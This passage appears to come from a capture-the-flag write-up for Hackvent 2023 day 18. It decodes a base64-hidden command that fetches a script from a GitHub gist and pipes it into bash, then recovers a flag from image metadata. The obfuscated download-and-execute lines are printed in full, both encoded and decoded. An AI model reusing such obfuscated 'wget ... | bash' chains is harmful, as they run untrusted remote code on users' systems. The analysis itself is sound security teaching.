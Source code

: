     'echo d2dldCBodHRwczovL2dpc3QuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2dpYW5rbHVnLzZkYTYzYTA3NGU2NjJkODYyMWQxM2ZmN2FmYzc0ZGUxL3Jhdy81ZjY1ODkyOTJhNWMxZjM3NDNkNGQwZjYyMmNlODJlODA5OGFhMDM4L2hvbWV3b3JrLnR4dCAtTyAtIHwgYmFzaAo= > data'
    

This is creating the `data` file that’s later run with `bash`. I’ll decode it
myself:

    
    
    oxdf@hacky$ echo d2dldCBodHRwczovL2dpc3QuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2dpYW5rbHVnLzZkYTYzYTA3NGU2NjJkODYyMWQxM2ZmN2FmYzc0ZGUxL3Jhdy81ZjY1ODkyOTJhNWMxZjM3NDNkNGQwZjYyMmNlODJlODA5OGFhMDM4L2hvbWV3b3JrLnR4dCAtTyAtIHwgYmFzaAo= | base64 -d
    wget https://gist.githubusercontent.com/gianklug/6da63a074e662d8621d13ff7afc74de1/raw/5f6589292a5c1f3743d4d0f622ce82e8098aa038/homework.txt -O - | bash
    

It’s fetching a file from GitHub and piping it into Bash. The file is a Bash
script:

    
    
    #!/bin/bash
    wget https://gist.githubusercontent.com/gianklug/5e8756afc93211b15fe995f469add994/raw/5d5b86307181309c4bbbe021c94d75b9e07e6f8c/gistfile1.txt -O - | base64 -d > cat.png
    

It’s fetching another file, base64 decoding it, and saving it as `cat.png`.
I’ll do that, and get this:

![](../img/hv23-18-cat.png)

The flag is a comment in the metadata:

    
    
    oxdf@hacky$ exiftool cat.png 
    ExifTool Version Number         : 12.40
    File Name                       : cat.png
    Directory                       : .
    File Size                       : 1983 KiB
    File Modification Date/Time     : 2023:12:18 12:30:14-05:00
    File Access Date/Time           : 2023:12:18 12:30:15-05:00
    File Inode Change Date/Time     : 2023:12:18 12:30:14-05:00
    File Permissions                : -rwxrwx---
    File Type                       : PNG
    File Type Extension             : png
    MIME Type                       : image/png
    Image Width                     : 3440
    Image Height                    : 1440
    Bit Depth                       : 8
    Color Type                      : RGB with Alpha
    Compression                     : Deflate/Inflate